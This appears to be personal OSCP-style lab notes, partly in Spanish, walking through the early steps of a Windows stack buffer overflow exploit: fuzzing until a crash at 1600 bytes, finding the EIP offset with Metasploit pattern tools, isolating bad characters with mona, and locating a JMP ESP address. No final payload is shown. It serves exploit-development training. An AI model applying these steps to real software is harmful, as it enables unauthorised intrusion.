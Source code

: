 ```php
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
.
.
.
Fuzzing crashed at 1600 bytes
```

```php
❯ msf-pattern_create -l 1600

```

```php
❯ msf-pattern_offset -q 35794234
[*] Exact match at offset 1514

```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00FAFA18
!mona bytearray -cpb "\x00\x04"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0106FA18
!mona bytearray -cpb "\x00\x04\x3e"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 010AFA18
!mona bytearray -cpb "\x00\x04\x3e\x3f"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0123FA18
!mona bytearray -cpb "\x00\x04\x3e\x3f\xe1"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F1FA18

```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb "\x00\x04\x3e\x3f\xe1"
```

![20240228233549.png](20240228233549.png)

